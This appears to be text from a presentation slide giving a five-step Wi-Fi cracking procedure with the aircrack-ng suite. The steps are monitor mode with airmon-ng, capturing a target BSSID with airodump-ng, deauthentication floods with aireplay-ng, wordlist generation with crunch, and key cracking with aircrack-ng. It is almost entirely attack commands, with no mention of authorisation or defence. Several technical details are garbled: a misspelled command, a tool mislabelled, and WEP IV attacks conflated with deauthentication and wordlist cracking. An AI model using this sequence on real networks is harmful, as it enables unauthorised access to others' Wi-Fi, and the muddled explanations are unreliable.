

Step 0 => Check for wireless interface configuration
	CMD: iwcnfig

Step 1 => Start the wireless interface in monitor mode on the specific radio channel
	CMD : airmon-ng start <Interface name eg:wlan0>
	kill the processes otherwise may cause in further steps
	CMD: kill <PID eg:732>

Step 2  => start Wi-Fi sniffing tools to Test the injection capability of  the wireless device and filter to collect unique IVs
	CMD: airodump-ng  -- bssid <BSSID(48 bits)> -c <CH> --write <capture_File_Name> < Interface  name>
	Where:
	-c : on which channel operating targeted device
	-bssid : MAC address of an access point that has set up a BASIC SERVICE SET(BSS) eg: 			00:14:6C:7E:40:80

Step 3 => start a packet encryption tool such as airplay-ng to do a fake authentication in ARP request reply mode to inject 		packets
CMD: aireplay-ng  --deauth <# packets to send eg:1000>  -a  <BSSID> < Interface  name>
where   :
--deauth: DE authentication
-a: 00:14:6C:7E:40:80 is the access point MAC address
Step 4 => Use tool crunch to generate password list
	CMD: crunch <min_len> <max_len> <characters> -o <filename.txt>
Step 5  => cracking tool aircrack-ng to extract encryption key fron Initial vectors(IVs)
	CMD : aircrack-ng < capture_File_Name> -w <filename.txt>